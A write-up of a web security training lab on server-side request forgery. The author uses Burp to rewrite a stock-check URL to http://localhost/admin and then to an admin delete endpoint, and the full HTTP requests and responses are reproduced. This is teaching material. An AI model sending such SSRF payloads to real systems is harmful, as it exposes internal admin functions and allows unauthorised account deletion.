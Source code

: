 *This lab has a stock check feature which fetches data from an internal system. To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.*

Greeted by a page with different products. I decided to check out one of the products, where I found a stock check feature. 

![[Screenshot 2024-04-30 at 5.49.03 PM.png]]
In order to intercept the stock check feature, I clicked on the *check stock* function while Burp Intercept was turned on. I received the following output : 
```Burp 
POST /product/stock HTTP/2
Host: 0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net
Cookie: session=XGxl61zOpX5ZBKQThavkdQTrX5H4leDh
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

As seen above, there is a `stockApi`. we can send the output to Burp Repeater and replace the url in it to `http://localhost/admin` to gain access to the admin panel, as shown below : 


```Burp 
POST /product/stock HTTP/2
Host: 0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net
Cookie: session=XGxl61zOpX5ZBKQThavkdQTrX5H4leDh
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: https://0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://localhost/admin
```

The following relevant response was obtained : 

```Burp 
	<div>
		<span>carlos - </span>
		<a href="/admin/delete?username=carlos">Delete</a>
	</div>
```

Once again, I modified the request in the Repeater to the following: 

```Burp 
POST /product/stock HTTP/2
Host: 0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net
Cookie: session=XGxl61zOpX5ZBKQThavkdQTrX5H4leDh
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: https://0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://localhost/admin/delete?username=carlos
```

This produced the following successful response : 

```Burp 
HTTP/2 302 Found
Location: /admin
Set-Cookie: session=3Mx7ydFFfCsYmfhqEghFIwooL4hkwk9N; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
